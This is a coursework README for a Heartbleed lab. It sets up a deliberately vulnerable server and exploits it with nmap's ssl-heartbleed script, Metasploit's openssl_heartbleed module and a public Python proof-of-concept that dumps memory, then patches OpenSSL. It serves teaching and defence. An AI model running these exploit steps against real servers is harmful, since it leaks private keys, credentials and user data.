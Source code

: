 
# HeartBleed Vulnerability

by Timur Ozkul

This Heartbleed vulnerability set-up/exploit/bugfix was done for my Msc Cyber Security course in Swansea.

================
Table of Content
================
Part 1: Set up
-----
* Disclaimer *
This instruction is for Virtualbox, other hypervisors may be used but the setup might be slightly different.
Two ways of setting it up either us pre existing VM (considerably quicker) or or create Ubuntu 12.04 (This ubuntu version comes with TLS 1.1) and then a web server
------------------------------------------------------------------------------------
Part 2: Exploit
-----
* Disclaimer *
These instructions use Kali Linux, other Linux OS may be used but might require additional installations.
The square brackets [], indicate that it should be replaced with the appropriate input. Used in bash commands.
I will demonstrate two methods to exploit one with metasploit the other with a python script
------------------------------------------------------------------------------------
Part 3: Bug Fix
-----

------------------------------------------------------------------------------------


Part 1: Set up
================

-- Using pre existing VM --
1. Download custom Linux VM file (bee-box.zip) from https://sourceforge.net/projects/bwapp/files/bee-box/bee-box_v1.6.7z/download  
2. On Virtualbox 
	2.1 Click new
	2.2 Name VM anything of your choice
	2.3 For type pick Linux
	2.4 For version pick Ubuntu 64-bit and click next
	2.5 The recommended memory size is fine and click next
	2.6 For Hard disk pick use existing virtual hard disk and pick bee-box.vmdk from downloaded zip and click create
	2.7 Click start
3. Once VM is working go to terminal and use ifconfig command to find the ip address (for use later)
4. On the browser go to http://localhost/bWAPP/login.php
5. Login with username: bee and password: bug
6. On top right under choose your bug find heartbleed vulnerability under A6 and click hack

Now you should have a web server running with the Heartbleed vulnerability on port 8443

-- Creating web server on Ubuntu 12.04 --

1. Download ubuntu12.04 iso from http://www.ubuntu.com/download/alternative-downloads
2. Install OS on a VM (instructions are here: https://ubuntu.com/tutorials/tutorial-install-ubuntu-server)
3. Install Nginx with sudo apt-get install nginx
4. Generate your self-signed ssl key and certificate: 
openssl req -new -x509 -days 365 -sha1 -newkey rsa:1024 
-nodes -keyout heartbleed.key -out heartbleed.crt 
-subj '/O=YourCompany/OU=YourDepartment/CN=www.yoursite.com'
5. Copy your cert to the attacking computer (use sudo update-ca-certificates, update-ca-certificates —refresh)
6. Update your nginx config to add 
  ## SSL
  ssl on;
  ssl_certificate /path/to/your/heartbleed.crt;
  ssl_certificate_key /path/to/your/heartbleed.key;
7. Check the SSL version: openssl version -a
8. Restart nginx server: sudo service nginx restart

------------------------------------------------------------------------------------

Part 2: Exploit
================

1. Ping the VM that was created in part 1, using the ip address (to check if it can create a communication)
2. Use sudo nmap --script ssl-heartbleed -p [port#] [ip] or sudo nmap --script ssl* -p [port#] [ip]
	(this script checks the SSL version to see if it is vulnerable to Heartbleed)
3. Exploit using Metasploit
	3.1 Run msfconsole on terminal
	3.2 Type: search openssl_heartbleed
	3.3 Type: use openssl_heartbleed
	3.4 Type: set RHOSTS [ip]
	3.5 Type: set RPORT [port]
	3.6 Type: set action SCAN, and type: run (this test of the server is vulnerable to Heartbleed)
	3.7 Type: set action DUMP, and type: run (this will dump the memory leak to bin file)
	3.8 Go to the path of the bin file and type: strings [bin file name] 
	(String command shows only the strings of the dump)
	or strings -n 2 [bin file name] (which sets the min of chars)
4. Exploit using python proof of Concept script by Jared Stafford (jspenguin@jspenguin.org) (comments added by me)
	4.1 Download hbexploit.py & loophbexploitfrom https://github.com/timurozkul/HeartBleed.git
	4.2 On the terminal type: python ./hbexploit.py [ip] -p [port]
		(This will output dump onto the terminal window)
	4.3 Alternatively you can use my personal bash script which can make several heartbeat requests and which appends all the output to one file. Use the --help flag for description (makes use of the hbexploit.py script)

The exploit can gives different results so doing several heartbeat request is useful
------------------------------------------------------------------------------------

Part 3: Bug Fix
================
1. sudo apt-get update && sudo apt-get upgrade
2. sudo apt-get install openssl
3. To check if it updated run: openssl version -a
4. Re-run attack scripts

———


